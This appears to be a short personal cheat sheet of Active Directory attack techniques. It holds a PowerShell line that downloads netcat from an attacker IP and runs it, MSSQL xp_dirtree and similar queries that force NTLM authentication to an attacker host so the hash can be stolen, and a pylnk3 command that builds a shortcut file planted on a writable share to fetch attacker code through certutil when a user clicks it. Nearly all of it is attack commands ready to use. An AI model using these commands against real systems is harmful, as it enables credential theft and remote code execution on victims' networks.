 

https://notes.benheater.com/books/active-directory/page/kerberos-authentication-from-kali


Having domain credentials opens up a whole new world of enumeration possibilities:

- Gathering Bloodhound data
- Gathering Certipy data
- Check LDAP signing
- Check Machine Account Quota
- Check for kerberoastable accounts


IWR http://10.10.173.54:8000/nc.exe -OutFile %TEMP%\nc.exe | powershell -noprofile     [ Run the payload ]

## Steal NTLM hash 

```MSSQL
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

SELECT * FROM sys.dm_os_file_exists('\\10.8.0.148\re\con');
```


## LNK File Attack 

Cool ! We got write access in the Custom Folder of the public Share . which is the `Folder for custom shortcuts & internet links.`

We can craft our lnk files , So if some users being curious enough to **click** on shortcut files

--> We can grab hash on responder / steam ntlm , but that hash wasn't crackable !

--> We can relay authentication , But we cant do in this situation !

-->  We can craft lnk to download and run our beacon on behalf of that user !

```
└─# pylnk3 create C:/Windows/System32/cmd.exe -a "/c certutil.exe -f -split -urlcache http://10.8.0.148/hashgrab.py & " check.lnk
```
